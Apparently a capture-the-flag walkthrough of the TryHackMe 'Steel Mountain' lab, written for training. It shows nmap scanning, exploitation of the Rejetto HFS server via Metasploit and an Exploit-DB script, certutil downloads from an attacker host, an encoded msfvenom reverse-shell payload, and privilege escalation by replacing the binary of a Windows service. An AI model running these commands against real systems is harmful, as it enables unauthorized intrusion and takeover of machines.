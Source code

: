 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

```
nmap -A 10.10.248.189
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

```
msfconsole 
use exploit/windows/http/rejetto_hfs_exec 
set LHOST 10.10.62.157 
set RHOSTS 10.10.181.159 
set RPORT 8080
exploit
```

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -nvlp 443
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
python2 -m SimpleHTTPServer 81
python2 exploit.py 10.10.181.159 8080
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

```
cd C:\Program Files (x86)\IObit\Advanced SystemCare
sc stop AdvancedSystemCareService9 
certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe
```

**Kali**

```
nc -lvnp 4443
```

**Victim**

```
sc start AdvancedSystemCareService9
```

![](<../../.gitbook/assets/image (3) (1) (2) (1) (1) (1).png>)





